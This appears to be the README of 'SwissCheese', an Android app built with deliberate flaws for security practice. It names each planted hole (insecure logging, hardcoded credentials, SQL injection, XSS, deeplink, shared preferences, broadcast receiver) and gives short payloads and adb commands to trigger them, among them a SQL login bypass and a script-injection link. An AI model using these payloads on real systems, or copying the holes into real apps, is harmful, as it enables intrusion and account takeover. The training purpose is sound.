 # SwissCheese

Insecure Logging (LoginActivity)
Hardcoded Credentials : secretUsername secretPassword
SQL injection (LoginActivity): admin' or 1=1--

XSS (ViewPost activity): <a href="http://foo.com/login.php?username=%22+%2F%3E%3Cscript%3Ealert%28%27XSS%21%27%29%3B%3C%2Fscript%3E">Click here for free money!</a>
Vulnerable Deeplink (ViewPost activity) : ./adb shell am start -d "http://www.swisscheese.com/swiss?t=hi\&c=YourHacked"


Unsafe Shared Preference
./adb shell
cd 
cat file name

Insecure Broadcast Receiver


./adb shell am broadcast -a com.chang.jonathan.swisscheese.CUSTOME_INTENT --es title "wow"




